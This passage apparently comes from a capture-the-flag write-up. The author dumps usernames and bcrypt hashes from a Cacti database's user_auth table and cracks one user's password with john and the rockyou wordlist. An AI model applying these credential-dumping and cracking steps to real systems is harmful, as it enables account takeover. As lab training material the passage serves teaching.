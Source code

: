 `user_auth` sounds like where I might find hashes, and I do:

```

MySQL [cacti]> describe user_auth;
+------------------------+-----------------------+------+-----+---------+----------------+
| Field                  | Type                  | Null | Key | Default | Extra          |
+------------------------+-----------------------+------+-----+---------+----------------+
| id                     | mediumint(8) unsigned | NO   | PRI | NULL    | auto_increment |
| username               | varchar(50)           | NO   | MUL | 0       |                |
| password               | varchar(256)          | NO   |     |         |                |
| realm                  | mediumint(8)          | NO   | MUL | 0       |                |
| full_name              | varchar(100)          | YES  |     | 0       |                |
| email_address          | varchar(128)          | YES  |     | NULL    |                |
| must_change_password   | char(2)               | YES  |     | NULL    |                |
| password_change        | char(2)               | YES  |     | on      |                |
| show_tree              | char(2)               | YES  |     | on      |                |
| show_list              | char(2)               | YES  |     | on      |                |
| show_preview           | char(2)               | NO   |     | on      |                |
| graph_settings         | char(2)               | YES  |     | NULL    |                |
| login_opts             | tinyint(3) unsigned   | NO   |     | 1       |                |
| policy_graphs          | tinyint(3) unsigned   | NO   |     | 1       |                |
| policy_trees           | tinyint(3) unsigned   | NO   |     | 1       |                |
| policy_hosts           | tinyint(3) unsigned   | NO   |     | 1       |                |
| policy_graph_templates | tinyint(3) unsigned   | NO   |     | 1       |                |
| enabled                | char(2)               | NO   | MUL | on      |                |
| lastchange             | int(11)               | NO   |     | -1      |                |
| lastlogin              | int(11)               | NO   |     | -1      |                |
| password_history       | varchar(4096)         | NO   |     | -1      |                |
| locked                 | varchar(3)            | NO   |     |         |                |
| failed_attempts        | int(5)                | NO   |     | 0       |                |
| lastfail               | int(10) unsigned      | NO   |     | 0       |                |
| reset_perms            | int(10) unsigned      | NO   |     | 0       |                |
+------------------------+-----------------------+------+-----+---------+----------------+
25 rows in set (0.002 sec)
MySQL [cacti]> select username,password from user_auth;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |
| guest    | 43e9a4ab75570f5b|               
| marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |
+----------+--------------------------------------------------------------+
3 rows in set (0.001 sec)  

```

### Crack Hashes

I’ll drop these into a file and try to crack them. `hashcat` is slow on my setup with brcypt, but `john` breaks marcus’ hash relatively quickly:

```

oxdf@hacky$ /opt/john/run/john hashes --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
funkymonkey      (marcus) 

```
